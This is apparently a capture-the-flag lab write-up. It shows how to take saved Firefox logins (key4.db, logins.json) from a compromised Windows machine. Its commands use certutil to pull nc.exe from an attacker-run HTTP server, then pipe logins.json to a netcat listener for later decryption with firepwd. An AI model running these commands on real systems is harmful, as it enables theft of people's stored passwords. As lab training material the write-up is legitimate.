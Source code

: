 ```
05/14/2020  09:45 PM    <DIR>          .
05/14/2020  09:45 PM    <DIR>          ..
05/14/2020  09:30 PM                24 addons.json
05/14/2020  09:23 PM             1,952 addonStartup.json.lz4
05/14/2020  09:45 PM                 0 AlternateServices.txt
05/14/2020  09:30 PM    <DIR>          bookmarkbackups
05/14/2020  09:24 PM               216 broadcast-listeners.json
04/21/2020  11:47 PM           229,376 cert9.db
04/21/2020  04:00 PM               220 compatibility.ini
...
snip
...
```
ther is an important files that maight be contain logins
```key4.db``` and ```logins.json```. for Retrieving the passwords from those files there a good python script for that, read ![this](https://github.com/lclevy/firepwd).
```
┌──(root💀kali)-[/home/kali/Desktop/rooms/gatekeeper]
└─# git clone https://github.com/lclevy/firepwd.git
...
snip
...
```
let's send ```key4.db``` and ```logins.json``` to our kali.
we have to find a way for transering files between our kali and the target windows machine first.
the best one it's netcat, but we have to download netcat windows version first on our kali then transfer it to the windows machine
```
┌──(root💀kali)-[/home/kali/Desktop/rooms/gatekeeper]
└─# wget https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip
--2021-11-22 10:22:16--  https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip
Resolving eternallybored.org (eternallybored.org)... 84.255.206.8, 2a01:260:4094:1:42:42:42:42
Connecting to eternallybored.org (eternallybored.org)|84.255.206.8|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 111892 (109K) [application/zip]
Saving to: ‘netcat-win32-1.12.zip.1’

netcat-win32-1.12. 100%[=============>] 109.27K   392KB/s    in 0.3s    

2021-11-22 10:22:18 (392 KB/s) - ‘netcat-win32-1.12.zip.1’ saved [111892/111892]
```
```
┌──(root💀kali)-[/home/kali/Desktop/rooms/gatekeeper]
└─# unzip netcat-win32-1.12.zip
	nc.exe
	nc64.exe
	...
	snip
	...
```
now, let's transfer nc.txt to the windows machine, run the local simple http server with python
```
python3 -m http.server
```
search for a usefull tool comes with windows by default called ```CertUtil``` One of the features of CertUtil is the ability to download a certificate, or any other file for that matter, from a remote URL and save it as a local file. we can get nc.exe from our kali to the windows using the syntax 
```
certutil -urlcache -f http://10.9.3.214:8000/nc.exe nc.exe
```
now we have netcat in the windows target, let's use it on our shell for get key4.db and logins.json
##### kali
```
nc -nlvp 1234 > logins.json
```
##### windows shell
```
nc.exe -nv 10.9.3.214 1234 < logins.json
